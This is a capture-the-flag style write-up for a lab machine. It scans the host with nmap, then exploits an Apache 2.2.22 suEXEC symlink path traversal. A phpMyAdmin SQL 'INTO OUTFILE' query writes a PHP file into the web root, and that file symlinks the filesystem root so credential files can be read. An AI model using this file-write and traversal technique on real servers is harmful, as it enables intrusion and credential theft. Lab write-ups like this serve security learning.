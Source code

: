 # Apache suEXEC vulnerability

When we scan the network to find the open ports, we can get the services versions

```
nmap -sV 192.168.1.22                                                                                                                                                    !
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-28 18:30 CEST
Nmap scan report for borntosechackme.home (192.168.1.22)
Host is up (0.00016s latency).
Not shown: 994 closed ports
PORT    STATE SERVICE    VERSION
21/tcp  open  ftp        vsftpd 2.0.8 or later
22/tcp  open  ssh        OpenSSH 5.9p1 Debian 5ubuntu1.7 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http       Apache httpd 2.2.22 ((Ubuntu))
143/tcp open  imap       Dovecot imapd
443/tcp open  ssl/http   Apache httpd 2.2.22
993/tcp open  ssl/imaps?
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Apache is running with the version `2.2.22`

After some research, we found this version is vulnerable. The suEXEC vulnerability is a path traversal. We can do a symlink with `/` and a php page to access a files the user `www-data` can read

We can found an exploit here : exploit-db.com/exploits/27397

We can exploit it by uploading a PHP page (with a SQL request in phpmyadmin like in the writeup2)

```php
<?php
    symlink("/", "paths.php");
?>
```

```sql
SELECT 1, '<?php symlink(\"/\", \"paths.php\");?>' INTO OUTFILE '/var/www/forum/templates_c/run.php'
```

We will upload the page with a script `apache_suexec.py`. We can do it manually on the phpmyadmin page

After this, the code need to be run with the page `https://192.168.1.22/forum/templates_c/run.php` (The script do it automatically)

Now, we can naviguate on the machine folders in the page `https://192.168.1.22/forum/templates_c/paths.php`

We can get some credentials on the path `/home/LOOKATME/password`

It's the FTP credentials, now continue the steps of the [*writeup2*](../writeup2.md), starting at the ftp part to be root!

